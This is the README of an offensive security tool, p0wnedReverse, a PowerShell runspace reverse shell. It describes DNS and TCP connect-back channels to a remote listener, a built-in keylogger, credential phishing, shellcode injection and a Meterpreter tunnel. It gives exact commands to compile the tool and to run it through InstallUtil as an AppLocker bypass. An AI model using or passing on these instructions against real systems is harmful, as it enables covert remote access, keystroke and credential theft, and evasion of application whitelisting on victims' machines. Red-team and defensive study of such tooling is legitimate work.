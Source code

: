 # p0wnedReverse
PowerShell Runspace Connect-Back Shell

### Author: Cn33liz and Skons

License: BSD 3-Clause

### What is it:

p0wnedReverse is based on the same code as [p0wnedShell](https://github.com/Cn33liz/p0wnedShell) and can be used as an Reversed (Connect-Back) shell.
Communication channels are made using Besimorhino's PowerCat code and you can choose between DNS TXT or TCP communication channels.
When the code is run it also starts an C# Keylogger that logs all keystrokes to "$env:Temp\KeyLog-*". You can use the Get-Keystrokes command within the shell to display all logged keystrokes.   
For a DNS tunnel you need to run a remote [DNSCat2 Listener](https://github.com/iagox86/dnscat2) and for TCP communication you can use [p0wnedShell](https://github.com/Cn33liz/p0wnedShell) to setup a Powercat Listener.


### How to Compile it:

To compile p0wnedReverse you need to import this project within Microsoft Visual Studio or if you don't have access to a Visual Studio installation, you can compile it as follows:

To Compile as x86 binary:

```
cd \Windows\Microsoft.NET\Framework\v4.0.30319

csc.exe /unsafe /reference:"C:\p0wnedReverse\System.Management.Automation.dll" /reference:System.IO.Compression.dll /out:C:\p0wnedReverse\p0wnedReversex86.exe /platform:x86 "C:\p0wnedReverse\*.cs"
```

To Compile as x64 binary:

```
cd \Windows\Microsoft.NET\Framework64\v4.0.30319

csc.exe /unsafe /reference:"C:\p0wnedReverse\System.Management.Automation.dll" /reference:System.IO.Compression.dll /out:C:\p0wnedReverse\p0wnedReversex64.exe /platform:x64 "C:\p0wnedReverse\*.cs"
```

When you need to setup a DNS tunnel, then comment/uncomment LHost, LPort and Domain variable and change PowerCat settings.
Make sure you change the LHost and LPort variable to suit your needs (e.g. Listener IP/Port).

p0wnedReverse uses the System.Management.Automation namespace, so make sure you have the System.Management.Automation.dll within your source path when compiling outside of Visual Studio.

### How to use it:

Just run the executables or...

To run as x86 binary and bypass Applocker (Credits for this great bypass go to Casey Smith aka subTee):

```
cd \Windows\Microsoft.NET\Framework\v4.0.30319 (Or newer .NET version folder)

InstallUtil.exe /logfile= /LogToConsole=false /U C:\p0wnedReverse\p0wnedReversex86.exe
```

To run as x64 binary and bypass Applocker:

```
cd \Windows\Microsoft.NET\Framework64\v4.0.30319 (Or newer .NET version folder)

InstallUtil.exe /logfile= /LogToConsole=false /U C:\p0wnedReverse\p0wnedReversex64.exe
```

### What's inside the runspace:

#### The following PowerShell tools/functions are included:

* PowerSploit Invoke-Shellcode
* Besimorhino's PowerCat
* Nishang Invoke-CredentialsPhish
* Cn33liz Get-KeyStrokes (simple function that reads keystrokes from KeyLogger file)
* Cn33liz Invoke-Meterpreter (wrapper around Invoke-Shellcode that needs an IP and Port argument to setup an reversed https meterpreter tunnel. Works only with x86 version)

Powershell functions within the Runspace are loaded in memory from
[Base64 encode strings](https://github.com/Cn33liz/p0wnedShell/blob/master/Utilities/PS1ToBase64.ps1).